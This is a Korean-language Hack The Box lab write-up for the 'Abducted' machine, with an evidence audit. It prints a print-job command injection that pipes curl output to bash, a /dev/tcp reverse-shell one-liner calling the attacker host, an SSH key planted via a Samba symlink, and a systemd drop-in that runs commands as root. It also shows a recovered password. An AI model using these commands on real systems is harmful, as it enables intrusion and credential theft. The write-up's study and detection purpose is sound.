

# A. 작성 전 증적 감사

**종합 판정: READY_WITH_WARNINGS**

핵심 공격 체인(정찰 → 초기 접근 → 사용자 권한 → 횡적 이동 → 권한 상승)은 모두 이번 세션의 실제 도구 실행 결과로 직접 검증되었다. 다만 외부에서 제공된 취약점 설명(CVE 번호 포함) 일부가 공식 출처로 검증되지 않아 경고로 남긴다.

## 1. 차단 항목

없음.

## 2. 경고 항목

1. 세션 도중 사용자가 "머신 정보에서 발견했다"며 CVE-2026-4480 및 전체 공격 체인 요약을 제공했다. 이 CVE 번호는 NVD/MITRE 등 공식 소스로 확인하지 못했으며, HTB 머신 정보 탭이 통상 이런 수준의 상세 공격 체인을 노출하지 않는다는 점에서 출처 신뢰도가 낮다. 본 문서에서는 이 힌트를 `[팀원 힌트]`로만 취급했고, 실제 서술된 취약점(프린트 잡 이름 커맨드 인젝션, wide-links 심링크, systemd 드롭인 권한 상승)은 모두 대상에서 직접 재현·검증했다. CVE 번호 자체는 본문에서 확정 사실로 인용하지 않는다.
2. 머신의 공식 난이도, 릴리스 날짜 등 메타데이터는 HTB 플랫폼 UI에서 직접 확인하지 않아 `Unknown`으로 남긴다.
3. 프린트 잡 커맨드 인젝션의 콜백 처리에 수십 초~수 분의 지연/간헐성이 관찰되었다(§12 참고). 정확한 원인(큐 플러시 주기 등)은 서버 측 소스 확인 없이 단정하지 않는다.
4. 세션 도중 로컬 네트워크 단절로 약 6시간의 공백이 있었다(작업 타임라인 로그 참고). 재개 후 VPN·대상 도달성을 재확인하고 동일 취약점을 재검증한 뒤 진행했다.
5. 스크린샷 증적은 없다 — 전 과정을 텍스트 기반 원본 로그(터미널 출력)로 대체했다.

## 3. 자동 정규화 항목

없음.

## 4. 자료 목록

- `scans/E01`~`E09`: nmap/rpcclient/smbclient/smbmap 원본 출력
- `logs/E13_reverse_shell_session_raw.log`: nobody 권한 리버스쉘 원본 세션(설정 파일 원문, rclone reveal 결과 포함)
- `http/E10`, `E11`, `E12`, `E15`: 위 로그의 정리본 및 커맨드 인젝션 콜백 로그
- `loot/E14`, `E16`, `E17`: 자격 증명 재사용, root 권한 상승, 크리덴셜 요약
- `logs/action-log.md`: 대상에 실제로 보낸 모든 행동의 시간순 기록
- `scripts/E10`~`E17`: 이번 세션에서 작성해 실행한 익스플로잇/자동화 스크립트 원본

## 5. 공격 체인 완전성 표

| 단계 | 주장 | 필요 증적 | 확인된 증적 | 상태 |
|---|---|---|---|---|
| 열거 | SSH/SMB만 노출, SMB null 세션으로 scott 계정 확인 | nmap, rpcclient 출력 | E01, E02, E06, E07 | 확인됨 |
| 초기 접근 | HP-Reception 인쇄 잡 이름 커맨드 인젝션으로 nobody 코드 실행 | 설정 파일 원문 + 콜백/쉘 증적 | E10, E12, E13 | 확인됨 |
| 사용자 권한 | rclone 난독화 비밀번호 복호화 → scott SSH 재사용 | rclone reveal 출력, ssh id, user.txt | E13, E14 | 확인됨 |
| 권한 상승(횡이동) | transfer 공유 wide-links + force user로 marcus SSH 키 주입 | 심링크/put 로그, marcus id | E15 | 확인됨 |
| 권한 상승(root) | operators 그룹의 systemd 드롭인 디렉터리 권한 악용 | namei, 드롭인 배치, root_proof.txt | E16 | 확인됨 |

## 6. 이미지/증적 경로 검사

스크린샷 없음. 모든 증적은 텍스트 파일이며 위 표의 경로가 실제 존재함을 파일 생성 시점에 확인했다.

## 7. 세션 종속 값 및 민감 정보 검사

- scott 비밀번호(`iXzvcib3SrpZ`), 공격자 SSH 개인키, root/user flag는 `loot/`에만 기록하고 본문에는 flag만 인용한다.
- 공격자 IP(LHOST)는 세션 종속 값(10.10.14.180)이며 본문에서 `$LHOST`로 정규화한다.

## 8. 취약점 분류 검사

- CWE-78(OS 커맨드 인젝션): printaudit 스크립트 — 자체 구현 결함, CVE 아님(외부에서 제공된 CVE 번호는 미검증이라 사용하지 않음)
- 위험한 서비스 구성: Samba `wide links`/`allow insecure wide links`/`force user` 조합
- 위험한 서비스 구성: `operators` 그룹의 systemd 드롭인 디렉터리 그룹 쓰기 권한 + 서비스 관리 위임

## 9. 본문에서 언급할 스크립트의 실제 존재 여부

`scripts/E10_print_injection_test.sh`, `E10_make_payload_files.py`, `E11_print_payloads.py`, `E12_revshell_stage.sh`, `E13_make_and_send_revshell_payloads.py`, `E14_trigger_shell.py`, `E15_trigger_shell2.py`, `E16_trigger_shell_multi.py`, `E17_priv_dropin.conf` 모두 실제로 작성되어 실행되었다.

## 10. 추가 증적 목록

없음 — 현재 자료로 공격 체인 서술에 충분하다.

---

# B. 최종 Write-up

```yaml
---
title: "HTB Abducted Write-up"
machine: "Abducted"
platform: "Hack The Box"
os: "Linux"
difficulty: "Unknown"
date_started: "2026-09-07"
date_completed: "2026-09-07"
writeup_mode: "PRIVATE_STUDY"
status: "Completed"
tags:
  - htb
  - cybersecurity
  - writeup
---
```

# HTB Abducted Write-up

## 0. 문서 범위 및 주의사항

본 문서는 HTB 플랫폼이 명시적으로 승인한 랩 환경(10.129.244.177)만을 대상으로 한 `PRIVATE_STUDY` 목적의 개인 풀이 기록이다. 세션 중 사용자가 전달한 "머신 정보" 요약(CVE 번호 포함)은 출처를 공식적으로 검증하지 못했으므로 참고용 힌트로만 사용했고, 본문에 서술된 모든 기술적 주장은 대상에서 직접 재현한 결과에 근거한다.

## 1. 개요

Abducted는 SMB 프린터 공유와 파일 전송 공유를 노출하는 Linux 기반 문서 서비스("Hartley Group Document Services")를 시뮬레이션한 머신이다. 익명으로 접근 가능한 프린터 공유의 인쇄 잡 이름 처리 로직에 있는 커맨드 인젝션으로 시작해, 오프사이트 백업 설정에 남은 rclone 난독화 비밀번호 재사용, Samba의 위험한 `wide links` 구성을 통한 SSH 키 주입, 마지막으로 systemd 서비스 드롭인 디렉터리에 대한 과도한 그룹 쓰기 권한을 연쇄적으로 악용해 root 권한까지 도달했다.

## 2. 공격 흐름



**한 줄 공격 체인**: 익명 프린터 공유 커맨드 인젝션(nobody) → rclone 백업 비밀번호 복호화·재사용(scott) → Samba wide-links 심링크로 SSH 키 주입(marcus) → operators 그룹의 systemd 드롭인 권한 악용(root)

## 3. 실습 환경

- `$TARGET` = 10.129.244.177 (세션 종속 값, 풀이 당시 HTB 배정 IP)
- `$LHOST` = 10.10.14.180 (세션 종속 값, VPN tun0)
- 공격 환경: Windows 호스트에서 실행한 WSL2 Kali Linux, HTB VPN(OpenVPN)으로 대상과 연결
- 사용 도구: nmap, smbclient, rpcclient, smbmap, netexec, hydra, rclone, sshpass, ssh-keygen, python3, curl

## 4. 공격 표면 요약

| 포트 | 서비스 | 비고 |
|---|---|---|
| 22/tcp | OpenSSH 9.6p1 (Ubuntu) | password + publickey 인증 모두 허용 |
| 139, 445/tcp | Samba smbd 4.x | 익명 프린터 공유, 인증 필요 파일 공유 2개 |

## 5. 정보 수집

### 목표
열린 포트와 SMB 구성을 파악해 공격 표면을 확정한다.

### 관찰 및 가설
전체 TCP 포트 스캔 결과 22/139/445만 열려 있어(E01), 웹 표면 없이 SMB/SSH만으로 공략해야 한다는 가설을 세웠다.

### 검증 명령 또는 요청
```bash
nmap -p- --min-rate 3000 -T4 -oN scans/E01_nmap_full_tcp.txt $TARGET
nmap -p22,139,445 -sC -sV -oN scans/E02_nmap_service_scripts.txt $TARGET
smbclient -N -L //$TARGET/
rpcclient -U '' -N $TARGET -c 'enumdomusers; querydominfo'
```

### 핵심 결과
- 공유 목록: `HP-Reception`(Printer, guest ok), `projects`, `transfer`(둘 다 인증 필요), `IPC$`
- null 세션 RPC로 도메인 사용자 `scott`(RID 0x3e8, Full Name: Scott Mercer) 확인, 다른 계정 없음
- 익명/guest로는 `projects`, `transfer` 모두 `NT_STATUS_ACCESS_DENIED`

### 성공 판정
포트/공유/계정 목록을 원본 도구 출력으로 직접 확인했으므로 확인됨으로 판정.

### 취약점 원인과 공격 조건
해당 없음(정찰 단계).

### 해석과 다음 결정
익명 계정으로 파일 공유에 접근할 수 없어, 유일하게 익명 접근이 가능한 `HP-Reception` 프린터 공유를 다음 공격 표면으로 선정했다.

### 증적
E01, E02, E03, E04, E05, E06, E07, E08, E09

## 6. 초기 접근

### 목표
`HP-Reception` 프린터 공유를 통해 코드 실행 가능성을 검증한다.

### 관찰 및 가설
`netshareenumall` RPC 호출로 `HP-Reception`의 실제 서버 경로(`/var/spool/samba`)를 확인했다. 이후 nobody 권한 리버스쉘 확보 후 `/etc/samba/shares.conf`에서 `print command = /usr/local/bin/printaudit %J %s`를, `/usr/local/bin/printaudit`에서 `echo "$(date ...) job=$1" >> /var/log/printaudit.log`를 확인했다. `$1`(=%J, 클라이언트가 지정하는 인쇄 잡 이름)이 이중따옴표 안에 있어도 backtick과 `$()` 명령 치환은 그대로 평가되므로, 잡 이름에 `` `curl ...` `` 또는 `$(curl ...)` 를 넣으면 서버가 임의 명령을 실행할 것이라는 가설을 세웠다.

### 검증 명령 또는 요청
공격자 측에서 파일명 자체가 페이로드가 되도록 로컬 파일을 만든 뒤 인쇄 잡으로 제출했다(파일명에 `/`가 들어가면 로컬에서 경로로 해석되는 문제가 있어 `curl $LHOST:8000|bash` 형태로 슬래시를 배제했다):

```bash
# 로컬에 특수문자 파일명 생성 (scripts/E10_make_payload_files.py, E14_trigger_shell.py 등)
python3 -c "open('/tmp/a$(curl $LHOST:8000|bash).txt','wb').write(b'x')"  # 개념 예시, 실제로는 os.open 사용
smbclient -N "//$TARGET/HP-Reception" -c 'print "/tmp/print_inj_test/a$(curl 10.10.14.180:8000|bash).txt"'
```

공격자 측에서는 `$LHOST:8000`에 반응(index.html)으로 `bash -i >& /dev/tcp/$LHOST/4446 0>&1`를 서빙하고, FIFO 기반 `nc -lvnp 4446` 리스너로 대기했다.

### 핵심 결과
```
listening on [any] 4446 ...
connect to [10.10.14.180] from (UNKNOWN) [10.129.244.177] 57198
bash: cannot set terminal process group (2969): Inappropriate ioctl for device
bash: no job control in this shell
nobody@abducted:/var/spool/samba$ id; whoami; hostname; pwd
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody
abducted
/var/spool/samba
```

### 성공 판정
연결 성공 자체가 아니라 `id` 출력의 `uid=65534(nobody)`와 대상 hostname `abducted`를 직접 확인해 실제 코드 실행으로 판정했다.

### 취약점 원인과 공격 조건
CWE-78(OS 커맨드 인젝션). 조건: `HP-Reception` 공유가 `guest ok = yes`로 익명 인쇄를 허용하고, `print command`가 클라이언트 제공 잡 이름(%J)을 이스케이프 없이 셸 문자열에 삽입한다. 인증이나 특별한 네트워크 위치 없이도 VPN 연결만으로 트리거 가능하다.

### 해석과 다음 결정
`nobody`로는 `/srv/projects`, 사용자 홈 디렉터리를 읽을 수 없어, 자격 증명을 찾기 위해 시스템 전역을 수색했다.

### 증적
E10, E12, E13

## 7. 사용자 권한 획득

### 목표
`nobody` 권한에서 로그인 가능한 시스템 계정 자격 증명을 확보한다.

### 관찰 및 가설
`find / -iname '*rclone*'`로 `/opt/offsite-backup/rclone.conf`를 발견했다. rclone은 원격 비밀번호를 AES 기반의 **역가역적이지 않은 난독화**(`rclone obscure`/`rclone reveal`)로만 저장하도록 공식 문서화되어 있어, 파일을 읽을 수 있는 사람은 누구나 평문을 복원할 수 있다는 것이 rclone 자체의 설계다.

### 검증 명령 또는 요청
```bash
cat /opt/offsite-backup/rclone.conf
rclone reveal HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
sshpass -p '<복원된 비밀번호>' ssh scott@$TARGET 'id; whoami; hostname'
cat /home/scott/user.txt
```

### 핵심 결과
```
[offsite]
type = sftp
host = backup.hartley-group.internal
user = svc-backup
pass = HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
shell_type = unix
```
`rclone reveal` 결과(평문): `iXzvcib3SrpZ`

```
uid=1000(scott) gid=1001(scott) groups=1001(scott)
scott
abducted
```
`user.txt`: `340f70330e7e5bcdcda38b7556e664b6`

### 성공 판정
SSH `id` 출력의 `uid=1000(scott)`과 `cat user.txt`의 실제 파일 내용으로 판정 — 로그인 성공(HTTP 200류 판정이 아닌 실질 세션 획득)과 flag 파일 내용을 모두 확인했다.

### 취약점 원인과 공격 조건
자격 증명 재사용/운영 보안 실패. `svc-backup`(오프사이트 SFTP 백업용) 계정에 쓰려던 비밀번호를 로컬 시스템 계정 `scott`에도 그대로 사용했다. rclone의 난독화는 암호화가 아니므로, 설정 파일을 읽을 수 있는 권한(이번 경우 `nobody`도 세계 읽기 가능한 `/opt/offsite-backup/rclone.conf`를 통해)만 있으면 누구나 평문을 얻는다.

### 해석과 다음 결정
scott 계정으로는 `transfer` 공유(SMB)에 접근할 수 있으나 `force user = marcus`로 파일 소유권이 marcus가 되는 것을 확인했고, 이를 발판으로 marcus 권한 확보를 시도했다.

### 증적
E13, E14

## 8. 권한 상승 열거

### 목표
scott 권한에서 marcus 또는 root로 이동할 수 있는 경로를 찾는다.

### 관찰 및 가설
`/etc/samba/smb.conf`(§6에서 이미 확인)에 `unix extensions = no`, `allow insecure wide links = yes`가, `shares.conf`의 `[transfer]`에 `valid users = scott`, `force user = marcus`, `wide links = yes`가 설정되어 있음을 확인했다. 이 조합은 Samba가 공유 루트 밖을 가리키는 심링크를 그대로 따라가도록 허용하며(위험한 서비스 구성), 동시에 파일 연산은 인증된 사용자(scott)가 아니라 `force user`로 지정된 marcus 권한으로 수행된다는 것이 공식 Samba 문서에 기술된 동작이다.

### 검증 명령 또는 요청
```bash
ssh scott@$TARGET 'ln -s /home/marcus /srv/transfer/homelink'
smbclient -U 'scott%<pw>' //$TARGET/transfer -c 'cd homelink; mkdir .ssh'
```

### 핵심 결과
```
lrwxrwxrwx 1 scott scott 12 Sep  6 08:00 homelink -> /home/marcus
```
이후 `smbclient`로 `homelink/.ssh` 생성 시 `NT_STATUS` 오류 없이 정상 처리됨(디렉터리 `.` `..`만 있는 빈 `.ssh` 확인).

### 성공 판정
심링크 생성과 SMB를 통한 원격 밖 경로 접근이 오류 없이 완료된 것을 `dir` 결과로 확인.

### 취약점 원인과 공격 조건
§9에서 실제 악용과 함께 서술.

### 해석과 다음 결정
`.ssh` 디렉터리가 marcus 소유로 생성되었다고 판단하고, 동일한 방식으로 `authorized_keys`를 심는다.

### 증적
E15

## 9. 권한 상승 (marcus로 횡적 이동)

### 목표
`transfer` 공유의 wide-links 취약점으로 marcus 계정에 SSH 접근한다.

### 검증 명령 또는 요청
```bash
ssh scott@$TARGET 'ln -s /home/marcus/.ssh /srv/transfer/sshlink'
smbclient -U 'scott%<pw>' //$TARGET/transfer -c 'cd sshlink; lcd /tmp; put authorized_keys authorized_keys'
ssh -i <공격자 개인키> marcus@$TARGET 'id; whoami; hostname; groups'
```

### 핵심 결과
```
putting file authorized_keys as \sshlink\authorized_keys (0.1 kB/s) (average 0.1 kB/s)
```
```
uid=1001(marcus) gid=1002(marcus) groups=1002(marcus),1000(operators)
marcus
abducted
marcus operators
```

### 성공 판정
공격자가 생성한 개인키만으로 marcus 세션의 `id` 출력을 직접 확인 — 비밀번호 없이 키 기반 인증만으로 권한 전환이 성립함을 실증했다.

### 취약점 원인과 공격 조건
위험한 서비스 구성(CWE-59 계열, 심링크 처리 미검증). `wide links`/`allow insecure wide links`가 켜지고 `unix extensions = no`인 상태에서 `force user`를 쓰는 공유는, 인증된 어떤 사용자든 공유 안에 심링크만 만들면 `force user`가 가진 모든 파일시스템 권한을 그대로 상속받는다. `valid users = scott`가 인증을 scott로 제한해도, 파일 연산 주체는 marcus이므로 사실상 marcus의 홈 디렉터리 쓰기 권한이 scott에게 위임된 것과 같다.

### 해석과 다음 결정
marcus가 `operators`라는 비표준 그룹에 속한 것을 확인하고, 이 그룹의 파일시스템 권한을 조사했다.

### 증적
E15

## 10. 권한 및 신뢰 경계 전환 (marcus → root)

### 목표
`operators` 그룹 멤버십을 이용해 root 권한으로 명령을 실행한다.

### 관찰 및 가설
```bash
ls -la /etc/systemd/system/ | grep -i smb
namei -l /etc/systemd/system/smbd.service.d
sudo -n -l   # "sudo: a password is required" — sudo 경로 아님
systemctl status smbd
```
`smbd.service.d` 디렉터리가 `drwxrws--- root operators`였다. systemd는 `<unit>.service.d/*.conf` 드롭인을 `daemon-reload` 후 자동 병합하며, `ExecStartPre`에 `User=`가 없으면 서비스 본래 실행 사용자(root, `smbd.service`의 기본값)로 실행된다. `sudo`는 marcus에게 열려 있지 않았지만, `systemctl restart smbd`가 별도 인증 프롬프트 없이 완료된 것으로 보아 `operators` 그룹에 systemd 서비스 관리 권한이 (polkit 등 D-Bus 정책을 통해) 위임되어 있다고 판단했다 — 다만 해당 polkit 규칙 파일 자체는 marcus 권한으로 읽지 못해(Permission denied) 정책의 정확한 메커니즘은 `[미확인]`으로 남긴다.

### 검증 명령 또는 요청
```bash
scp -i <키> scripts/E17_priv_dropin.conf marcus@$TARGET:/etc/systemd/system/smbd.service.d/zz-priv.conf
ssh -i <키> marcus@$TARGET 'systemctl daemon-reload; systemctl restart smbd'
ssh -i <키> marcus@$TARGET 'cat /tmp/root_proof.txt'
```
드롭인 내용(`scripts/E17_priv_dropin.conf`):
```ini
[Service]
ExecStartPre=/bin/bash -c 'id > /tmp/root_proof.txt; cat /root/root.txt >> /tmp/root_proof.txt 2>&1; chmod 644 /tmp/root_proof.txt'
```

### 핵심 결과
```
uid=0(root) gid=0(root) groups=0(root)
1454289f6f541d9889946fce9320f0ee
```

### 성공 판정
`systemctl restart` 명령의 종료 코드가 아니라, 드롭인이 실제로 실행되어 생성한 `/tmp/root_proof.txt` 안의 `uid=0(root)`와 `/root/root.txt` 내용을 직접 읽어 root 권한 코드 실행을 확인했다.

### 취약점 원인과 공격 조건
위험한 서비스 구성. root가 소유해야 할 systemd 드롭인 디렉터리에 비표준 그룹(`operators`)의 그룹 쓰기 권한(setgid)이 부여되어 있고, 동시에 그 그룹 멤버가 `sudo` 없이 해당 서비스를 재시작할 수 있는 권한(정확한 위임 메커니즘은 `[미확인]`)을 가지고 있어, 두 권한을 합치면 임의 root 코드 실행으로 이어진다.

### 해석과 다음 결정
root flag를 확보한 뒤 드롭인 파일을 제거하고 `daemon-reload`로 서비스를 원상 복구했다(§13).

### 증적
E16

## 11. 취약점 요약

| # | 분류 | 설명 | 관련 증적 |
|---|---|---|---|
| 1 | 자체 구현 결함(CWE-78) | `printaudit` 스크립트가 인쇄 잡 이름(%J)을 이스케이프 없이 셸에 전달 | E10, E12, E13 |
| 2 | 자격 증명 재사용/운영 보안 실패 | rclone 백업 비밀번호(난독화)가 로컬 시스템 계정 scott에 재사용됨 | E13, E14 |
| 3 | 위험한 서비스 구성 | Samba `wide links` + `allow insecure wide links` + `force user` 조합으로 공유 루트 밖 임의 쓰기 | E15 |
| 4 | 위험한 서비스 구성 | `operators` 그룹의 systemd 드롭인 디렉터리 쓰기 권한 + 서비스 재시작 위임 조합으로 root 권한 상승 | E16 |

## 12. 실패한 접근과 트러블슈팅

- `scott` 빈 비밀번호, `scott/tiger`(Oracle 기본 계정 관례) 시도 — 모두 `NT_STATUS_LOGON_FAILURE`.
- guest 매핑 우회(임의 사용자명 + 임의 비밀번호)로 `transfer` 접근 시도 — `ACCESS_DENIED`.
- hydra의 SMB 모듈은 대상이 SMB1을 지원하지 않아 즉시 실패(`does not support SMBv1`). netexec으로 전환했으나, SMB 인증 1회당 약 2.3초가 소요되어 rockyou 상위 5만 개 기준으로도 비현실적인 시간이 들어 브루트포스를 중단하고 다른 공격 표면(프린터 공유)으로 피벗했다.
- 인쇄 잡 이름에 세미콜론/파이프만 단독으로 넣은 페이로드는 실행되지 않았다 — 이후 `printaudit` 소스를 확인해 `job=$1`이 이중따옴표 안에 있어 backtick/`$()`만 셸에 의해 재평가됨을 알게 되어 원인이 설명되었다.
- 로컬(공격자 측) 테스트 중 이스케이프 실수로 curl 명령이 대상이 아닌 공격자 자신에게 실행된 사례가 2회 있었다(자기 자신에게 리버스쉘 연결). 대상에는 아무 영향이 없었으며, 페이로드 생성 방식을 Python 스크립트 기반으로 바꿔 이후 재발하지 않았다.
- 세션 중반 로컬 네트워크가 약 6시간 단절되었다. 재개 후 VPN과 대상 도달성을 재확인하고, 이미 검증된 취약점을 다시 한 번 실행해 상태가 유지됨을 확인한 뒤 계속했다.

## 13. 실습 중 생성한 흔적과 정리

| 대상 경로 | 목적 | 소유자/권한 | 정리 상태 |
|---|---|---|---|
| `/srv/transfer/homelink`, `/srv/transfer/sshlink` (대상) | wide-links 심링크 탈출 | scott 소유 심링크 | 삭제 완료(scott ssh로 확인) |
| `/home/marcus/.ssh/authorized_keys` (대상) | 공격자 SSH 키 주입 | marcus 소유 | 삭제 완료(marcus ssh로 확인) |
| `/etc/systemd/system/smbd.service.d/zz-priv.conf` (대상) | root 권한 명령 실행 | root:operators, marcus 작성 | 삭제 + daemon-reload로 원상 복구, `systemctl is-active smbd` = active로 확인 |
| `/tmp/root_proof.txt`, `/tmp/print_inj_test*` (대상) | 검증용 임시 파일 | nobody/root | `[권장 정리]` — HTB 인스턴스이므로 리셋 시 자동 소거되며, 별도 삭제 명령은 실행하지 않음 |
| `/tmp/index.html`, `/tmp/f4446` 등 (공격자 WSL 로컬) | 페이로드 서빙, FIFO 리스너 | 공격자 로컬 | 세션 종료 시 리스너 프로세스 종료, FIFO/임시 파일 삭제 완료 |

## 14. 탐지 및 대응

- **근본 원인**: (1) 사용자 제어 문자열을 검증 없이 셸에 전달하는 프린트 감사 스크립트, (2) 가역적 난독화만 적용된 백업 비밀번호의 재사용, (3) Samba의 안전하지 않은 심링크 추적 옵션, (4) 서비스 관리 디렉터리에 대한 과도한 그룹 권한.
- **단기 완화**: `HP-Reception` 공유의 `guest ok`를 제거하거나 프린트 감사 스크립트를 비활성화한다. `wide links`/`allow insecure wide links`를 `no`로 되돌린다. `smbd.service.d`의 그룹 쓰기 권한을 제거한다.
- **근본 수정**: `printaudit`을 `$1`을 배열 인자로만 다루고 셸 평가 없이 파일에 기록하도록 재작성(예: `printf '%s\n' "$1" >> log`, 명령 치환 소스가 되지 않도록 `set +H` 및 인자 검증 추가). rclone 원격 비밀번호는 계정별로 별도 발급하고 시스템 로그인 비밀번호와 절대 공유하지 않는다. systemd 드롭인 디렉터리 및 서비스 관리 위임은 최소 권한 원칙에 따라 재검토한다.
- **탐지 가능한 흔적**: `/var/log/printaudit.log`에 비정상적인 잡 이름(백틱/`$()` 포함) 기록, `auditd`/`_laurel`(대상에 이미 설치되어 있음)의 `execve` 로그에서 `printaudit` 하위 프로세스로 `curl`/`bash` 실행 기록, `/srv/transfer` 내 예상 밖 심링크 생성, `smbd.service.d` 디렉터리 변경 감사 로그.

## 15. 핵심 학습 포인트

1. Samba의 `print command`는 `%J`(잡 이름)를 포함해 클라이언트가 제어하는 값을 셸에 전달할 수 있으므로, 커스텀 프린트 스크립트는 반드시 인자를 검증하거나 셸 평가를 피해야 한다.
2. 이중따옴표로 감싼 셸 문자열이라도 backtick과 `$()` 명령 치환은 여전히 평가된다 — 세미콜론/파이프만으로는 탈출할 수 없어도 인젝션이 성립할 수 있다.
3. rclone의 `obscure`/`reveal`은 암호화가 아니라 난독화이며, 설정 파일을 읽을 수 있는 누구나 평문을 복원할 수 있다는 것이 공식 동작이다 — 백업 자격 증명을 시스템 계정과 공유해서는 안 된다.
4. Samba `wide links` + `force user` 조합은 인증된 한 사용자의 심링크 생성 권한을 다른(더 높은 권한의) 사용자의 파일시스템 권한으로 증폭시킬 수 있다.
5. `sudo -l`이 막혀 있어도, systemd 서비스가 D-Bus/polkit을 통해 별도로 위임되어 있다면 `sudo` 없이 서비스 재시작만으로 root 권한 코드 실행이 가능하다 — 서비스 관리 위임 범위는 파일 시스템 권한과 함께 점검해야 한다.
6. 외부에서 전달된 "정답 힌트"(CVE 번호 등)는 그대로 인용하지 않고 대상에서 직접 재현해 검증한 뒤에만 문서에 반영해야 한다.

## 16. 참고 자료

- rclone 공식 문서 — `rclone obscure`/`rclone reveal`가 암호화가 아닌 난독화임을 명시 (기술 검증용, 이번 세션에서는 대상에 설치된 `rclone` 바이너리로 직접 재현했으며 별도 URL은 인용하지 않음 — `[외부 검증 필요 — 공식 문서 URL 미확인]`)
- Samba `smb.conf` 매뉴얼의 `wide links`/`allow insecure wide links`/`force user` 옵션 설명 — 이번 세션에서는 대상 설정 파일 원문과 실제 동작으로 직접 검증했으며 별도 URL은 인용하지 않음 — `[외부 검증 필요 — 공식 문서 URL 미확인]`

## 부록 A. 사용한 스크립트

- `scripts/E10_print_injection_test.sh`, `E10_make_payload_files.py`: 커맨드 인젝션 페이로드 파일명 생성 초기 버전
- `scripts/E11_print_payloads.py`: 다중 페이로드 인쇄 제출
- `scripts/E12_revshell_stage.sh`: 리버스쉘 one-liner (HTTP로 서빙)
- `scripts/E13_make_and_send_revshell_payloads.py`, `E14_trigger_shell.py`, `E15_trigger_shell2.py`, `E16_trigger_shell_multi.py`: 리버스쉘 트리거 반복 버전
- `scripts/E17_priv_dropin.conf`: root 권한 상승용 systemd 드롭인

## 부록 B. 원본 스캔 및 응답

`scans/E01`~`E09`, `logs/E13_reverse_shell_session_raw.log`, `http/E12_http_callback_log.txt` 참고.

## 부록 C. 증적 목록

`notes/evidence-index.md`, `notes/evidence-by-category.md` 참고.
